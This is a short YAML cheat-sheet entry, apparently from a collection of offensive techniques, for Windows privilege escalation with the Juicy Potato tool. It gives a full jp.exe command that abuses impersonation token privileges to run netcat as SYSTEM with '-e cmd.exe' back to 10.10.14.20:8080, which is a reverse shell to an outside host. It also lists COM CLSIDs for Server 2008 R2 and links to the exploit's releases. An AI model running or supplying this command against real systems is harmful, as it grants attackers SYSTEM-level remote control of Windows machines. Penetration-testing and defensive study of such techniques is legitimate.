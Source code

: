 ```yaml
---
functions:
  privilege-escalation:
    - description: Leverage a service account with impersonatetoken  and assignprimarytoken to get system
      code: |
        C:\ColdFusion8\runtime\bin>jp.exe -t * -p nc.exe -a "10.10.14.20 8080 -e cmd.exe" -c {e60687f7-01a1-40aa-86ac-db1cbf673334} -l 13337

        Common CLSID:
        2008 R2 Standard
        winmgmt {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
        BITS {69AD4AEE-51BE-439b-A92C-86AE490E8B30}

resources: |
  https://github.com/ohpe/juicy-potato
  https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
  https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2
---
```

